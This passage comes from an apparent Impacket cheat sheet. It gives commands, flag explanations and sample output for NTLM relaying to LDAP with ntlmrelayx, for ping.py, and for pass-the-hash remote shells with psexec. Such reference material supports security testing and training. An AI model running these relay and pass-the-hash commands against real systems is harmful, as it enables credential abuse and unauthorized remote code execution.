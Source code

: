 **Use Case**: Maps domain hosts for targeting.[](https://www.kali.org/tools/impacket/)

### 19. ntlmrelayx.py
**Purpose**: Performs NTLM relay attacks across protocols (e.g., SMB, HTTP, LDAP).

**Usage Example**:
```bash
impacket-ntlmrelayx -t ldap://192.168.1.100 -tf targets.txt -smb2support
```
**Flag Explanations**:
- `-t ldap://192.168.1.100`: Target protocol and IP for relaying.
- `-tf targets.txt`: File with list of target IPs.
- `-smb2support`: Enables SMB2/3 support.

**Example Output**:
```
[*] Relayed credentials to LDAP
[*] Added user: relay_user
```

**Use Case**: Relays NTLM credentials for privilege escalation.

### 20. ping.py
**Purpose**: Sends ICMP packets to check host availability.

**Usage Example**:
```bash
impacket-ping -i 192.168.1.101 -c 4
```
**Flag Explanations**:
- `-i 192.168.1.101`: Target IP.
- `-c 4`: Number of packets to send.

**Example Output**:
```
Reply from 192.168.1.101: bytes=32 time<1ms
```

**Use Case**: Verifies target reachability.

### 21. psexec.py
**Purpose**: Executes commands remotely via PsExec-like functionality.

**Usage Example**:
```bash
impacket-psexec -dc-ip 192.168.1.100 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 example.local/user1@192.168.1.101 cmd.exe
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-hashes :31d6cfe0d16ae931b73c59d7e0c089c0`: NTLM hash for pass-the-hash.
- `example.local/user1@192.168.1.101`: Target and credentials.
- `cmd.exe`: Command to execute.

**Example Output**:
```
C:\Windows\system32>
```
